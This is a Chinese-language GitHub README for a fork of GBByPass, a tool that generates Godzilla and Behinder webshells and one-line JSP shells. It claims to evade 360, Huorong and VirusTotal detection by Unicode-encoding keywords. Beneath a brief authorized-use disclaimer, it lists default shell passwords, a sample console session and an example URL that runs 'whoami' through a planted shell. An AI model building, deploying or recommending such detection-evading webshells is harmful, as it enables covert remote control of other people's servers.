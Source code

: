 >在 GBByPass 的基础上增加了自定义冰蝎和一句话的密码的功能
https://github.com/czz1233/GBByPass


```
*************************警 告*****************************
本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!
***********************************************************

1、Godzilla java_aes_raw 连接默认密码为: 1
2、Behinder默认密码为: baihua666
3、生成绕不过阿里云检测 http://XXX:8080/xxx.jsp?baihua666=whoami

[*] 输入密码或回车(使用默认值): P#xdd5d
[*] 一句话、冰蝎, 密码为: P#xdd5d

[+] 输入 '1' 生成Godzilla;
[+] 输入 '2' 生成Behinder;
[+] 输入 '3' 生成绕不过阿里云检测一句话：
2
[*] 生成中... 密码： P#xdd5d
[+] Succussfully
```


# GBByPass
冰蝎 哥斯拉 webshell bypass 原理通过Unicode编码绕过关键字
# 更新哥斯拉
## 哥斯拉效果图
![](images/godz.png)
## 360 
![](images/360.png)
## 火绒
![](images/fir.png)
## virustotal
![](images/img.png)
## webdir+
![](images/webdir+.png)



## Stargazers over time

[![Stargazers over time](https://starchart.cc/h0nayuzu/WebshellBypass.svg)](https://starchart.cc/h0nayuzu/WebshellBypass)
